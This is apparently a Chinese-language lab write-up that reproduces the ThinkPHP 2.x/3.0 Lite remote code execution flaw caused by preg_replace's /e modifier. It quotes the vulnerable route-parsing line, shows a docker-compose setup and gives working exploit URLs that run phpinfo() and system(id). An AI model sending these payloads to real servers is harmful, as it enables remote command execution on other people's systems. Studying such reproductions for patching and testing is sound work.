 # ThinkPHP 2.x 任意代码执行漏洞

## 漏洞描述

ThinkPHP 2.x版本中，使用`preg_replace`的`/e`模式匹配路由：

```php
$res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));
```

导致用户的输入参数被插入双引号中执行，造成任意代码执行漏洞。

ThinkPHP 3.0版本因为Lite模式下没有修复该漏洞，也存在这个漏洞。

## 环境搭建

执行如下命令启动ThinkPHP 2.1的Demo应用：

```bash
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/Index/Index`即可查看到默认页面。

## 漏洞复现

直接访问`http://your-ip:8080/index.php?s=/index/index/name/$%7B@phpinfo()%7D`即可执行`phpinfo()`：

![image-20220302144931898](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021449975.png)

执行系统命令：

```
http://your-ip:8080/index.php?s=/index/index/name/$%7Bsystem(id)%7D
```

![image-20220302145029395](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021450448.png)